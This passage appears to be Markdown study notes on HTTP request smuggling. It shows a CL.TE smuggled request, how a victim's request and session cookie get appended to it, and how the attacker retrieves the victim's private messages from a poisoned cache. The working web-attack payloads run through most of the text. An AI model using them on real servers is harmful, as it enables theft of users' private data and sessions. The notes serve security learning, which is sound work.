 ```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

The next request from another user that is forwarded to the back-end server will be appended to the smuggled request, including session cookies and other headers:

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

The back-end server responds to this request in the normal way. The URL in the request is for the user's private messages and the request is processed in the context of the victim user's session. The front-end server caches this response against what it believes is the URL in the second request, which is `/static/some-image.png`

```http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

The attacker then visits the static URL and receives the sensitive content that is returned from the cache.

>[!warning]
>An important caveat here is that the attacker doesn't know the URL against which the sensitive content will be cached, since this will be whatever URL the victim user happened to be requesting when the smuggled request took effect. The attacker might need to fetch a large number of static URLs to discover the captured content.

# Advanced Request Smuggling Attacks

- [HTTP/2 request splitting](Exploiting%20Advanced%20Request%20Smuggling.md#HTTP/2%20request%20splitting) and [Request smuggling via CRLF injection](Exploiting%20Advanced%20Request%20Smuggling.md#Request%20smuggling%20via%20CRLF%20injection)
- [Response queue poisoning](Exploiting%20Advanced%20Request%20Smuggling.md#Response%20queue%20poisoning)
- [HTTP request tunneling](Exploiting%20Advanced%20Request%20Smuggling.md#HTTP%20request%20tunneling)
- [Exploiting CL.0 & H2.0 vulnerabilities](CL.0%20smuggling%20vulnerabilities.md#Exploiting%20CL.0%20&%20H2.0%20vulnerabilities)
- [Client-side desync](Client-side%20desync%20attacks.md)
- [Pause-based desync attacks](Pause-based%20desync%20attacks.md)